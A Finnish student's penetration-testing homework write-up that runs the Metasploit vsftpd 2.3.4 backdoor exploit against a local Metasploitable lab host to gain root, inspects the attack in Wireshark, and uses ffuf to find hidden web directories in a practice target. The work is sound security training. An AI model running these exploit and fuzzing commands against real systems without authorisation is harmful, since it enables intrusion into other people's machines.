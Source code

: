 H3: Nuuskija
Host-kone: AMD Ryzen 5800X3D, NVIDIA RTX 3080, 32GB DDR4, Windows 11 23H2

### x) Lue/katso/kuuntele ja tiivistä. 14.11 klo 17.00)

Wiresharkissa on paljon hyviä ominaisuuksia. Sieltä voi hakea tietoa CTRL + F:llä, voi näkeä graafeja, jos omistaa serverin yksityisen avaimen Wiresharkilla voi myös dekryptata liikennettä. 

Fuffaaminen on työkalu jolla voi automaattisesti käydä web-palvelimella olevia hakemistoja läpi, ja ehkä löytää salaisia/hyödyllisiä hakemistoja. Kätevää, kun ei tarvitse tehdä käsin! Se voi käyttää esim käyttäjän määrittämää sanalistaa. 

### a) Valitse valmis hyökkäys. Ota sellainen hyökkäys, jonka saat toimimaan omaan paikalliseen harjoitusmaaliin, kuten Metasploitableen. Demonstroi hyökkäyksen toiminta.

Valitsin tuon helpotetun VSFTPD hyökkäyksen, koska viimekerralla oli ongelmia exploittien kanssa ja halusin varman onnistumisen ilman säätämistä. Kalilla käynnistin Wiresharkin, ja aloin kuuntelemaan eth0-väylää. Käynnistin msfconsolen, hain exploitteja, valitsin exploitin, asetin parametrit, käynnistin hyökkäyksen ja pääsin sisään koneelle seuraavia komentoja käyttäen 

`sudo msfconsole`
`search vsftpd`
`use 1`
`set RHOSTS 192.168.12.6`
`set RPORT 21`
`run`
`whoami`

Saimme rootin Metasploitableen takaoven kautta.

![image](https://github.com/user-attachments/assets/4118d5ea-7718-4ae9-8645-135ca02772b8)

### b) Sorsa. Selitä ja arvioi valitsemasi hyökkäyksen toimintaa lähdekoodista.

Exploit löytyy kansiosta `/usr/share/metasploit-framework/modules/exploits/unix/ftp/`. Avataan lähdekoodi. `nano vsfptd_234_backdoor.rb`. Rubya en osaa lukea kunnolla, mutta sen mitä ohjelmoinnista ja tunnilla käydystä asiasta muistan, että kun käyttäjänimeen laittoi hymynaaman niin takaovi aukeaa. Koodissa se näyttää tältä:

![image](https://github.com/user-attachments/assets/324735d4-5db3-4a4a-8cfe-a5c622fafdda)

### c) Snif snif. Selitä ja arvioi valitsemasi hyökkäyksen toimintaa verkkosnifferillä. Pohdi myös, miten näkyvä tämä hyökkäys tai kontrollikanava on verkossa. (Vapaaehtoinen bonus: liitä mukaan pcap tekemästäsi nauhoituksesta).

![image](https://github.com/user-attachments/assets/c9c59163-9bca-42ba-99f7-edff58bc2438)

Tässä näemme Wiresharkilla kaapattua liikennettä. Huomaamme että Kalista lähtee liikennettä metasploitableen ja sieltä vastataan vsFTPD versiolla ja salasanapyynnöllä. Kali taas antaa käyttäjänimeksi stringin, jossa on hymynaama ja se aktivoi takaoven. 

### d) Fuzzzz. Ratkaise dirfuz-1 artikkelista Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf.

FFUF olikin jo kalissa asennettu. Latasin tuommoisen tiedoston (all_files.txt) mikä on täynnä hakusanoja GitHubista https://github.com/maverickNerd/wordlists.

Latasin myös Kaliin tuon dirfuztin Teron kotisivuilta. cd:tin Downloadsiin ja ajoin komennot `chmod 777 dirfuzt-1`, ja `./dirfuzt-1`. 

![image](https://github.com/user-attachments/assets/d1494472-cd44-4753-8f42-4b742ccb4233)

Testasin sivua komennolla `curl 127.0.0.2:8000`, ja tämä näkyi: 

![image](https://github.com/user-attachments/assets/20595333-7dfd-4e33-9b5f-dec1b860d5b0)

Ajoin komennon `ffuf -u http://127.0.0.2:8000/FUZZ -w all_files.txt -o fuzzed.md -of md -mc 200,403 -fs 154`. Komento tähdätään tuohon 127.0.0.2 osoitteeseen, käyttäen sanalistaa all_files.txt, tallentaa tiedostot fuzzed.md-tiedostoon, hyväksyy vain 200 tai 403 vastaukset, ja filteröi koon 154 merkkiä ulos. Tämä siksi, kun ajoin komennon ensin ilman sizeä ja komennossa kaikki niistä turhista outputeista näytti olevan 154 pitkiä, kuten Tero teki myös esimerkissään. 

![image](https://github.com/user-attachments/assets/4044a9c3-d032-4c56-92e0-e6c0b59a065f)

![image](https://github.com/user-attachments/assets/bac30867-c37a-4daa-bdae-75902f3429f0)

Sieltä löytyi .git kansioita ja /wp-admin, jonka curlasin ja sieltähän se löytyi!

![image](https://github.com/user-attachments/assets/e973b27f-508d-42c7-8f48-98e67b1a1be4)




## Lähteet:

https://terokarvinen.com/tunkeutumistestaus/

https://terokarvinen.com/2023/fuzz-urls-find-hidden-directories/

https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/pcap-inspection/wireshark-tricks#improve-your-wireshark-skills

https://github.com/maverickNerd/wordlists

